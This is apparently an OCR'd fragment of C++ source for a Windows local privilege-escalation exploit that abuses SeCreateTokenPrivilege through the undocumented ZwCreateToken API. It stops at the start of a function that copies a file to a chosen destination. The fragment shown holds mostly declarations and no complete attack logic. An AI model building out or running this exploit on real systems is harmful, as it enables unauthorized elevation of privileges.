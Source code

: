 ```c++
#include <Windows.h>
#include <winternl.h>
#define _NTDEF_ 
#include <NTSecAPI.h>
#include <iostream>
#include <stdio.h>
#include <stdlib.h>
#include <sddl.h>
#include <lmaccess.h>

#pragma comment(lib, "Secur32.lib")
#pragma comment(lib, "Netapi32.lib")

#if !defined(NT_SUCCESS)
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
#endif

#define SIZE 200000
#define STATUS_SUCCESS           0

typedef struct _SID_BUILTIN
{
	UCHAR Revision;
	UCHAR SubAuthorityCount;
	SID_IDENTIFIER_AUTHORITY IdentifierAuthority;
	ULONG SubAuthority[2];
} SID_BUILTIN, * PSID_BUILTIN;

typedef struct _SID_INTEGRITY
{
	UCHAR Revision;
	UCHAR SubAuthorityCount;
	SID_IDENTIFIER_AUTHORITY IdentifierAuthority;
	ULONG SubAuthority[1];

} SID_INTEGRITY, * PSID_INTEGRITY;

typedef NTSYSAPI NTSTATUS(NTAPI* _ZwCreateToken)(
	OUT PHANDLE TokenHandle,
	IN ACCESS_MASK DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes,
	IN TOKEN_TYPE Type,
	IN PLUID AuthenticationId,
	IN PLARGE_INTEGER ExpirationTime,
	IN PTOKEN_USER User,
	IN PTOKEN_GROUPS Groups,
	IN PTOKEN_PRIVILEGES Privileges,
	IN PTOKEN_OWNER Owner,
	IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
	IN PTOKEN_DEFAULT_DACL DefaultDacl,
	IN PTOKEN_SOURCE Source
);


BOOL ExploitSeCreateTokenPrivilege(LPCWSTR sourceFile, LPCWSTR destFile)
{
	BOOL status = FALSE;
	HANDLE hSource, hDestination;
	char buffer[SIZE + 1];
	DWORD dwBytesRead, dwBytesWrite;

	if (sourceFile && destFile)
	{
```